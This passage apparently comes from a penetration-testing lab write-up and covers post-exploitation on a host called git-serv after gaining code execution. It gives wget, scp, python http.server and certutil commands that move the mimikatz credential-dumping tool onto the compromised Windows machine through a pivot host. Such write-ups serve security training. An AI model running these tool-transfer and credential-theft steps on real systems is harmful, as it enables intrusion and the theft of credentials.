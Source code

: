 ![9rce_gitstack](imgs/9rce_gitstack.png)
![10rce_root](imgs/10rce_root.png)

### Post-Exploitation on 10.200.90.150 (git-serv)

Transfer mimimkatz to .150
- Download mimikatz.exe from the public repo: `wget https://github.com/ll1a4x/CTF_payloads/raw/main/mimikatz64_2.2.2.exe`
- SCP to .200: `scp -i id_rsa_root ./mimikatz64_2.2.2.exe root@10.200.90.200:/dev/shm/mimikatz-ll2022.exe`
- Add an allowed incoming traffic for an intermediate port that's set up as the python3 http server
```
firewall-cmd --zone=public --add-port 8356/tcp
python3 -m http.server 8356
```
- In the xfreerdp on 10.200.90.150 (git-serv)
	- Right click cmd.exe to run as Administrator
```
certutil -urlcache -f http://10.200.90.200:8356/mimikatz-ll2022.exe c:\users\public\mimikatz-ll2022.exe
```

![11transfer_pivot1](imgs/11transfer_pivot1.png)